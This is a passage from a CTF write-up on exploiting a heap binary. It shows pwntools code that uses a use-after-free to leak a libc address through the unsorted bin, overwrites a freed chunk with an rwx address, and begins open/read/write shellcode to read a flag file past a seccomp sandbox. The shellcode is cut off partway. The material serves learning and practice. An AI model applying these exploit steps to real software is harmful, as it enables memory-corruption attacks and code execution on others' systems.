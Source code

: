Given that, we will do two allocation, resulting in the `MAX_BIN_SIZE` overwritten.

```py
create(0x100) # Chubk 4
create(0x100) # Chunk 5 --> tcache_head
```

Since, `tcache` at this point is disabled and the chunk 1 size will be over 0x80(inclusive), `free`ing it would land it to the unsorted bin, resulting the chunk 1 pointer being populated with the `main_arena`, using the Use After Free, we can have the LIBC leak:-

```py
delete(0)
show(0)
p.recvuntil(": ")
libc.address = u64(p.recvline().strip().ljust(8, b"\x00")) - 0x3ebca0
log.info("LEAK:   0x%x" %(libc.address))
```

Since the chunk 4th is basically the freed'd chunk, we overwrite it with the `rwx` address

```py
edit(4, p64(0x0000000066660000))
```
![](img/rwx.png)

Now, since because of seccomp sandbox, we have to do `open/read/write` shellcode to read falag, we create a shellcode:-

```py
shellcode = asm("""
           mov rax, 0x7478742E67616C66
           push 0x0
           push rax
           mov rsi, 0
           mov rdi, rsp
           mov rax, 0x%x
           call rax

           mov rdi, rax
           mov rsi, rsp
           mov rdx, 0x30
           mov rax, 0x%x
           call rax

           mov rdi, 0x1
```